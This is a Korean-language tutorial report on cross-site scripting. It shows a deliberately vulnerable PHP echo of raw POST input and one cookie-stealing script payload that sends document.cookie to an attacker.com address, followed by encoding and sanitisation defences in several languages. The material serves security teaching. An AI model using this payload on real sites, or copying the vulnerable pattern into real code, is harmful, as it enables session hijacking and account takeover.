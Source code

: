 # XSS (Cross-Site Scripting) 분석 보고서

## 1. XSS 란?

**신뢰된 웹사이트에 악성 스크립트 주입하기**

- **정의:** 공격자가 다른 사용자가 보는 웹페이지에 악의적인 클라이언트 사이드 스크립트(주로 JavaScript)를 삽입하는 공격 기법입니다.
- **원리:** 웹 애플리케이션이 사용자로부터 입력받은 데이터를 검증하거나 이스케이프 처리하지 않고, 그대로 페이지에 표시할 때 발생합니다.
- **영향:**
    - **세션 탈취:** 사용자의 세션 쿠키를 훔쳐 계정을 도용합니다.
    - **개인정보 유출:** 사용자의 개인정보를 공격자의 서버로 전송합니다.
    - **악성 사이트 리디렉션:** 피싱 사이트나 악성코드를 유포하는 사이트로 사용자를 유도합니다.
    - **웹사이트 변조:** 웹페이지의 내용을 임의로 변경하거나 기능을 마비시킵니다.

---

## 2. 취약한 코드 분석 (`xss_test.php`)

**문제의 핵심: 사용자 입력의 무분별한 출력**

```php
// 사용자가 입력한 검색어
$payload = $_POST['payload'];

// 취약한 출력 방식 (시뮬레이션된 코드)
// 만약 애플리케이션이 아래와 같이 코드를 작성했다면 XSS에 취약합니다.
echo "검색 결과: " . $payload;
```

**핵심 문제점:** 사용자가 입력한 모든 데이터는 잠재적으로 악의적일 수 있다는 원칙을 무시하고, 아무런 처리 없이 그대로 HTML 페이지에 출력하는 것이 문제입니다.

---

## 3. 공격 시나리오: 세션 쿠키 탈취

**공격 목표:** 다른 사용자의 세션 쿠키를 훔쳐서 해당 사용자로 위장하기

**공격 페이로드:**
`<script>document.location='http://attacker.com/cookie_stealer.php?c=' + document.cookie</script>`

**공격 과정:**
1.  공격자는 이 스크립트를 게시판의 댓글이나 검색창 등 사용자의 입력이 출력되는 곳에 삽입합니다.
2.  다른 사용자(희생자)가 해당 페이지를 열람하면, 희생자의 브라우저에서 이 스크립트가 실행됩니다.
3.  스크립트는 희생자의 세션 쿠키 정보를 가로채, 공격자의 서버로 전송합니다.
4.  공격자는 탈취한 쿠키를 이용해 희생자의 계정으로 로그인하여 모든 활동을 할 수 있게 됩니다.

---

## 4. 해결책: 출력 인코딩 (Output Encoding)

**가장 확실하고 중요한 방어 방법**

```php
// 사용자가 입력한 검색어
$payload = $_POST['payload'];

// htmlspecialchars() 함수로 안전하게 인코딩
$safe_payload = htmlspecialchars($payload, ENT_QUOTES, 'UTF-8');

// 안전하게 인코딩된 데이터를 출력
echo "검색 결과: " . $safe_payload;
```

**작동 원리:**
`htmlspecialchars()` 함수는 스크립트 실행에 필요한 특수 문자들을 HTML 엔티티로 변환합니다.
-   `<` → `&lt;`
-   `>` → `&gt;`
-   `"` → `&quot;`

브라우저는 이 변환된 문자들을 태그가 아닌 일반 텍스트로 인식하여, 스크립트가 실행되지 않고 그대로 화면에 표시됩니다.

---

## 5. XSS 방어 전략

1.  **출력 인코딩 (필수):** 사용자의 입력값을 출력할 때는 반드시 컨텍스트(HTML, JavaScript, CSS 등)에 맞는 인코딩을 적용합니다.
2.  **콘텐츠 보안 정책 (CSP):** 브라우저에 신뢰할 수 있는 스크립트 소스를 명시하여, 허용되지 않은 스크립트의 실행을 차단합니다.
3.  **입력값 검증:** 사용자의 입력은 항상 서버 측에서 예상된 형식, 길이, 문자셋인지 검증합니다. (화이트리스트 방식 권장)
4.  **HttpOnly 쿠키 속성 사용:** JavaScript가 쿠키에 접근할 수 없도록 설정하여, 쿠키 탈취 공격의 피해를 최소화합니다.
5.  **최신 프레임워크 사용:** React, Vue, Angular 등 최신 웹 프레임워크는 대부분 기본적으로 XSS 방어 기능을 내장하고 있습니다.

---

## 6. 다양한 언어별 XSS 방어 방법

### JavaScript/Node.js
```javascript
// DOMPurify 라이브러리 사용
const DOMPurify = require('dompurify');
const clean = DOMPurify.sanitize(dirty);

// 템플릿 엔진에서 자동 이스케이핑 (Handlebars)
const template = Handlebars.compile('<div>{{name}}</div>');
const result = template({ name: userInput }); // 자동으로 이스케이프됨

// React에서 안전한 렌더링
function MyComponent({ userContent }) {
    return <div>{userContent}</div>; // 기본적으로 이스케이프됨
    // 위험: dangerouslySetInnerHTML 사용 금지
}

// Express.js에서 XSS 방어
const xss = require('xss');
app.use((req, res, next) => {
    req.body = xss(req.body);
    next();
});
```

### Python/Django/Flask
```python
# Django에서 자동 이스케이핑
# 템플릿에서 {{ user_input }}는 자동으로 이스케이프됨

# Flask에서 수동 이스케이핑
from markupsafe import escape
@app.route('/user/<username>')
def show_user_profile(username):
    return f'User: {escape(username)}'

# Python에서 HTML 이스케이핑
import html
safe_content = html.escape(user_input)

# bleach 라이브러리 사용
import bleach
clean = bleach.clean(user_input, tags=['b', 'i'], strip=True)
```

### Java/Spring
```java
// Spring에서 OWASP Java HTML Sanitizer 사용
import org.owasp.html.PolicyFactory;
import org.owasp.html.Sanitizers;

PolicyFactory policy = Sanitizers.FORMATTING.and(Sanitizers.LINKS);
String safeHTML = policy.sanitize(untrustedHTML);

// JSP에서 JSTL 사용
<%@ taglib prefix="fn" uri="http://java.sun.com/jsp/jstl/functions" %>
<c:out value="${fn:escapeXml(userInput)}" />

// Spring Security에서 헤더 설정
@EnableWebSecurity
public class SecurityConfig {
    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http.headers(headers -> headers
            .contentTypeOptions(ContentTypeOptionsConfig.withDefaults())
            .and().headers(headers2 -> headers2
                .addHeaderWriter(new XFrameOptionsHeaderWriter(XFrameOptionsMode.DENY))
            )
        );
        return http.build();
    }
}
```

### C#/.NET
```csharp
// ASP.NET에서 자동 인코딩
@Model.UserInput  // Razor에서 자동으로 HTML 인코딩

// 수동 인코딩
using System.Web;
string safeOutput = HttpUtility.HtmlEncode(userInput);

// AntiXSS 라이브러리 사용
using Microsoft.Security.Application;
string sanitized = Sanitizer.GetSafeHtmlFragment(userInput);

// Content Security Policy 헤더 설정
public void Configure(IApplicationBuilder app)
{
    app.Use(async (context, next) =>
    {
        context.Response.Headers.Add("Content-Security-Policy", 
            "default-src 'self'; script-src 'self'");
        await next();
    });
}
```

### Go
```go
// html/template 패키지 사용 (자동 이스케이핑)
import "html/template"
tmpl := template.Must(template.New("example").Parse("<div>{{.}}</div>"))
tmpl.Execute(w, userInput) // 자동으로 이스케이프됨

// 수동 HTML 이스케이핑
import "html"
safeOutput := html.EscapeString(userInput)

// bluemonday 라이브러리 사용
import "github.com/microcosm-cc/bluemonday"
p := bluemonday.UGCPolicy()
safeHTML := p.Sanitize(userInput)
```

### Ruby/Rails
```ruby
# Rails에서 자동 이스케이핑
<%= user_input %>  # ERB에서 자동으로 HTML 이스케이프

# 수동 이스케이핑
require 'cgi'
safe_output = CGI.escapeHTML(user_input)

# Sanitize gem 사용
require 'sanitize'
clean_html = Sanitize.fragment(user_input, Sanitize::Config::RELAXED)

# Content Security Policy 설정
class ApplicationController < ActionController::Base
  before_action :set_csp_header
  
  private
  def set_csp_header
    response.headers['Content-Security-Policy'] = "default-src 'self'"
  end
end
```
